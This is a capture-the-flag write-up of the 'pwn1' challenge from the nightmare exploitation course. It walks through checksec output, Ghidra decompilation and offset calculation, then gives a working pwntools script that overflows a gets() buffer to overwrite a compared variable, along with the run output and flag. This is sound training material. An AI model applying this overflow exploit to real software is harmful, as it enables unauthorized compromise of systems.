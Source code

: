 This is a short write-up of Challenge #1 a variable overflow from [hoppersroppers nightmare repository](https://github.com/hoppersroppers/nightmare/tree/master/modules/04-Overflows).

First things first lets find out what we are working with.

```jsx
checksec pwn1
[*] '/home/user/nightmare/pwn1'
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

pwn1 is a `32` bit little endian binary with RELRO, a Non-Executable Stack, and PIE. We also can verify that we can run this binary but it exits as it seems to not like our answer to the question asked.

```jsx
./pwn1
Stop! Who would cross the Bridge of Death must answer me these questions three, ere the other side he see.
What... is your name?
bugsy
I don't know that! Auuuuuuuugh!
```

Within Ghidra we can locate an exported function `main`. `main` has 3 main parts question 1, 2, and 3. 

```c
/* WARNING: Function: __x86.get_pc_thunk.bx replaced with injection: get_pc_thunk_bx */
/* WARNING: Globals starting with '_' overlap smaller symbols at the same address */

undefined4 main(undefined param_1)

{
  int iVar1;
  char userVar [43];
  int local_18;
  undefined4 local_14;
  undefined1 *local_10;
  
  local_10 = &param_1;
  setvbuf(_stdout,(char *)0x2,0,0);
  local_14 = 2;
  local_18 = 0;
  puts(
      "Stop! Who would cross the Bridge of Death must answer me these questions three, ere the other side he see."
      );
  puts("What... is your name?");
  fgets(userVar,0x2b,_stdin);
  iVar1 = strcmp(userVar,"Sir Lancelot of Camelot\n");
  if (iVar1 != 0) {
    puts("I don\'t know that! Auuuuuuuugh!");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  puts("What... is your quest?");
  fgets(userVar,0x2b,_stdin);
  iVar1 = strcmp(userVar,"To seek the Holy Grail.\n");
  if (iVar1 != 0) {
    puts("I don\'t know that! Auuuuuuuugh!");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  puts("What... is my secret?");
  gets(userVar);
  if (local_18 == -0x215eef38) {
    print_flag();
  }
  else {
    puts("I don\'t know that! Auuuuuuuugh!");
  }
  return 0;
}
```

Question 1: "What... is your name?"

This uses `fgets()` to safely retrieve `userVar` verify that it is within the bounds of the allocated array. It is then compared it to a hard coded string, `"Sir Lancelot of Camelot\n"`. If it is is equal we continue to the next question.

Question 2: "What... is your quest?"

Once again using `fgets()` to retrieve `userVar`, `userVar` is then compared to another hard-coded string, `"To seek the Holy Grail.\n"`. If it is equal then we continue to the third question. 

Question 3: "What... is my secret?"

This time `gets()` is used to retrieve `userVar`. Meaning that the bounds of the array are not verified and there does not appear to be any other type of safety checks. Additionally `userVar` is not being compared this time. This time `local_18` is compared to `-0x215eef38` instead of a hard-coded string and if it is equal then `print_flag()` is called. However, `local_18` is set to equal 0 so in order for the two to be equal we will need to overwrite the value of `local_18`.

Thanks to Ghidra we can view the assembly instructions of the function. This shows us that `userVar` starts at `-0x43` and `local_18` starts at `-0x18`. 

1. Offset=0x43−0x18
2. Offset=0x2B

![pwn1.png](assets/images/pwn1.png)

Viewing the assembly for `if (local_18 == -0x215eef38)` we see that local_18 is being compared to `0xdea110c8`.

![pwn2.png](assets/images/pwn2.png)

Armed with this knowledge we know we need to overwrite `0x2B` (43 bytes) prior to overwriting local_18 with the value that we want it to be, in this case `0xdea110c8`.

Hacking a Python script together I ended up with the following:

```python
from pwn import *

p = process('./pwn1')

junk = b'A' * 0x2b
comparedVal = 0xdea110c8
newLine = b'\n'

payload = [
    junk,
    p32(comparedVal),
    newLine
]

print(p.recvline())
# Question 1
print(p.recvline())
p.sendline(b'Sir Lancelot of Camelot')

# Question 2
print(p.recvline())
p.sendline(b"To seek the Holy Grail.")

# Question 3
print(p.recvline())
print("Sending payload....")
p.send(b''.join(payload))

print(p.recvline())
print(p.recvline())
```

And we got the flag!

```python
python3 ./pwn1.py
[+] Starting local process '/home/user/nightmare/pwn1': pid 7811
b'Stop! Who would cross the Bridge of Death must answer me these questions three, ere the other side he see.\n'
b'What... is your name?\n'
b'What... is your quest?\n'
b'What... is my secret?\n'
Sending payload....
[*] Process '/home/user/nightmare/pwn1' stopped with exit code 0 (pid 7811)
b'Right. Off you go.\n'
b'flag{g0ttem_b0yz}\n'
```